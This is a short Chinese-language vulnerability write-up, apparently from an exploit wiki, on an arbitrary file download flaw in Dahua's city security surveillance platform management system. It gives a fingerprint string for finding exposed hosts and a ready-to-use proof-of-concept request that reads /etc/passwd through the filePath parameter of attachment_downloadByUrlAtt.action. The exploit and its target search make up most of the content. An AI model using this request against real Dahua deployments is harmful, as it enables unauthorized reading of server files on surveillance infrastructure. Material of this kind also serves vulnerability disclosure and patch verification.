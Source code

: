 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>大华城市安防监控系统平台管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"attachment_downloadByUrlAtt.action"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1647528195700-90c15ce4-496f-4976-8538-8b39e1f248af.png)

验证POC

```javascript
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1647528297462-f92141b3-fa43-4cce-9717-13ba3b144dc7.png)
